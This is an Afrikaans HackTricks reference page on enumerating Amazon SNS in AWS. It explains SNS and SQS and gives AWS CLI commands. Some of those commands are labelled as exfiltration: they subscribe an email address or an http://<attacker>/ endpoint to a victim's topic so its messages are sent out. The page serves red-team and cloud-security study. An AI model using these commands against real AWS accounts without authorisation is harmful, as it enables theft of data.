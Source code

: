 # AWS - SNS Enum

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

## SNS

Amazon Simple Notification Service (Amazon SNS) word beskryf as 'n **ten volle bestuurde boodskapdiens**. Dit ondersteun beide **toepassing-tot-toepassing** (A2A) en **toepassing-tot-persoon** (A2P) kommunikasietipes.

Belangrike kenmerke vir A2A kommunikasie sluit in **publiseer/inteken (pub/sub) meganismes**. Hierdie meganismes stel **onderwerpe** in, wat noodsaaklik is vir die moontlikheid van hoë-deurset, **druk-gebaseerde, vele-tot-vele boodskappe**. Hierdie kenmerk is baie voordelig in scenario's wat verspreide stelsels, mikrodienste, en gebeurtenisgedrewe bedienerlose argitekture behels. Deur van hierdie onderwerpe gebruik te maak, kan publiseerstelsels boodskappe doeltreffend versprei na 'n **wye verskeidenheid intekenaarstelsels**, wat 'n waaiervormige boodskappatroon fasiliteer.

### **Verskil met SQS**

**SQS** is 'n **gebaseerde koeueue-diens** wat punt-tot-punt kommunikasie moontlik maak, en verseker dat boodskappe deur 'n **enkele verbruiker** verwerk word. Dit bied **ten minste een keer aflewering**, ondersteun standaard en FIFO-koeueue, en maak boodskapretensie vir herpogings en vertraagde verwerking moontlik.\
Aan die ander kant is **SNS** 'n **publiseer/inteken-gebaseerde diens**, wat **een-tot-vele** kommunikasie moontlik maak deur boodskappe na **meervoudige intekenaars** gelyktydig uit te saai. Dit ondersteun **verskeie intekeningseindpunte soos e-pos, SMS, Lambda-funksies, en HTTP/HTTPS**, en bied filtermeganismes vir geteikende boodskapaflewering.\
Terwyl beide dienste ontkoppeling tussen komponente in verspreide stelsels moontlik maak, fokus SQS op gekoeueue kommunikasie, en beklemtoon SNS gebeurtenisgedrewe, waaiervormige kommunikasiepatrone.

### **Opsomming**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Let wel dat as die **onderwerp van die tipe FIFO is**, kan slegs intekenaars wat die protokol **SQS** gebruik, gebruik word (HTTP of HTTPS kan nie gebruik word nie).

Selfs as die `--topic-arn` die streek bevat, moet jy seker maak dat jy die korrekte streek in **`--region`** spesifiseer, anders sal jy 'n fout kry wat lyk asof jy nie toegang het nie, maar die probleem is die streek.
{% endhint %}

#### Ongeagte Toegang

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Voorregverhoging

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Na-Exploitasie

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Volharding

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## Verwysings

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kontroleer die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS-familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFT's**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

